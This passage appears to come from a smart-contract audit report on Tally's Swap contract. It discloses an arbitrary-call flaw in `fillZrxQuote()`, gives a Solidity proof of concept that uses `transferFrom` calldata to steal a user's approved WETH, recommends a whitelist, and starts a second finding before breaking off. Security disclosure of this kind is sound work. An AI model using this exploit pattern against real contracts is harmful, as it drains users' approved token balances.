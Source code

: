 A call to an arbitrary contract with custom calldata is made in `fillZrxQuote()`, which means the contract can be an ERC20 token, and the calldata can be `transferFrom` a previously approved user.

##### Impact
The wallet balances (for the amount up to the allowance limit) of the tokens that users approved to the contract can be stolen.

##### PoC
Given:

*   Alice has approved 1000 WETH to `Swap.sol`;

The attacker can:
```solidity
    TallySwap.swapByQuote(
        address(WETH),
        0,
        address(WETH),
        0,
        address(0),
        address(WETH),
        abi.encodeWithSignature(
            "transferFrom(address,address,uint256)",
            address(Alice),
            address(this),
            1000 ether
        )
    )
```

As a result, 1000 WETH will be stolen from Alice and sent to the attacker.

This PoC has been tested on a forking network.

##### Recommendation
Consider adding a whitelist for `zrxTo` addresses.


**[Shadowfiend (Tally) confirmed](https://github.com/code-423n4/2021-10-tally-findings/issues/37)**

## [[H-02] Wrong calculation of `erc20Delta` and `ethDelta`](https://github.com/code-423n4/2021-10-tally-findings/issues/34)
_Submitted by WatchPug, also found by harleythedog_

[`Swap.sol` L200-L225](https://github.com/code-423n4/2021-10-tally/blob/c585c214edb58486e0564cb53d87e4831959c08b/contracts/swap/Swap.sol#L200-L225)

```solidity
function fillZrxQuote(
    IERC20 zrxBuyTokenAddress,
    address payable zrxTo,
    bytes calldata zrxData,
    uint256 ethAmount
) internal returns (uint256, uint256) {
    uint256 originalERC20Balance = 0;
    if(!signifiesETHOrZero(address(zrxBuyTokenAddress))) {
        originalERC20Balance = zrxBuyTokenAddress.balanceOf(address(this));
    }
    uint256 originalETHBalance = address(this).balance;

    (bool success,) = zrxTo.call{value: ethAmount}(zrxData);
    require(success, "Swap::fillZrxQuote: Failed to fill quote");

    uint256 ethDelta = address(this).balance.subOrZero(originalETHBalance);
    uint256 erc20Delta;
    if(!signifiesETHOrZero(address(zrxBuyTokenAddress))) {
        erc20Delta = zrxBuyTokenAddress.balanceOf(address(this)).subOrZero(originalERC20Balance);
```